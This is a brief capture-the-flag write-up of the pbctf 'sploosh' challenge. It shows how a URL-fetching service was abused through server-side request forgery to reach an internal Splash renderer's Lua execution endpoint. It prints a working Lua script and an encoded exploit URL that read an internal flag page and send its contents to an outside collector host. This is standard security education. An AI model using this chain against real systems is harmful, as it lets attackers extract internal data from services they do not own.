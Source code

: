 The idea behind the challenge was simple yet effective. We were given a service that visit a URL we provide and show its webpage-Dimensions.

On digging we find that the service used to calculate dimension is SPLASH : https://splash.readthedocs.io/en/stable/scripting-tutorial.html#scripting-tutorial

We started looking at what other options we can provide and came accross: https://splash.readthedocs.io/en/stable/api.html#arg-lua-source

So according to this, we can execute Lua script in conjunction to web page opened. So Idea was to open flag page and execute lua script to send the page content to our URL


Following Lua script can be used to read flag and send to us:

```

function main(splash)
  splash:go("http://webapp/flag.php")
  splash:wait(0.2)
  local title = splash:evaljs("document.body.innerText")
  splash:go("http://zeta2.free.beeceptor.com/?q=" .. title)  
  return {title=title}
end

```

So we will send following URL and retrieve the flag

```
http://sploosh.chal.perfect.blue/api.php?url=http://splash:8050/execute?lua_source=function+main%28splash%29%0D%0A++splash%3Ago%28%22http%3A%2F%2Fwebapp%2Fflag.php%22%29%0D%0A++splash%3Await%280.2%29%0D%0A++local+title+%3D+splash%3Aevaljs%28%22document.body.innerText%22%29%0D%0A++splash%3Ago%28%22http%3A%2F%2Fzeta2.free.beeceptor.com%2F%3Fq%3D%22+..+title%29++%0D%0A++return+%7Btitle%3Dtitle%7D%0D%0Aend
```


pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s}